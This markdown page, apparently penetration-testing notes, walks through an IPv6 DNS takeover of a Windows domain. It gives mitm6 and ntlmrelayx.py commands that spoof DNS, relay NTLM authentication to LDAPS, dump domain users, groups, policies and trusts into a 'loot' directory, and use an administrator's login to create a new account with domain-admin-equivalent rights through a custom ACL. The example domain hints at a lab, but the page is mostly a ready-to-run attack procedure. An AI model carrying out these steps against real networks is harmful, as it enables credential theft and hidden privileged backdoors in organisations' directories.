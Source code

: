 # DNS Takeover via IPv6

Most networks today run entirely off IPv4. However, many networks are still configured to run via IPv6 as well. By mimicking a DNS server and responding to IPv6 requests, you can gather domain information and forward hashes to gain access in the environment.

## DNS takeover via IPv6 to gather domain information or create a new domain administrator

* Start MITM6 listener

```bash
mitm6 -d $DOMAIN_NAME
```

* Start relay
  * $WPAD: Fake WPAD. Pretty inconsequential. Example: fakewpad.marvel.test
  * $LOOT_DIRECTORY: Attacker-local path to dump collected domain information (domain users, domain computers, domain users by group, domain policies, domain trusts)

```bash
ntlmrelayx.py -6 -t ldaps://$TARGET -wh $WPAD -l $LOOT_DIRECTORY
```

* Every 30 minutes from reboot domain computers will requery their DNS name, triggering the attack. If the attack succeeds, domain information will be dumped in **$LOOT_DIRECTORY**.
* When a domain administrator logs into a machine in the domain, ntlmrelayx.py will leverage their credential to create a new domain user account that isn't necessarily a domain administrator, but through the use of a custom ACL wields the same amount of power as a domain administrator.
